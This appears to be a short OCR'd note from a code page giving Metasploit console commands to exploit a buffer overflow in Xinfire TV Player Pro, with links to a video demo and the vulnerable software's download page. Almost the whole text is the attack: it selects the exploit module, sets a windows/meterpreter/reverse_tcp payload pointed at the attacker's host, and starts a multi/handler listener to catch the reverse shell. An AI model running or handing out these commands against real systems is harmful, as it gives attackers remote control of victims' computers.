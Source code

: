 use exploit/windows/fileformat/xinfire_tv_player

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (IP of Local Host)

exploit

Video demo Buffer Overflow Xinfire TV Player Pro
https://youtu.be/ivBPLheOWy4


downloads software
https://download.cnet.com/Xinfire-TV-Player-Pro/3000-13632_4-75986988.html
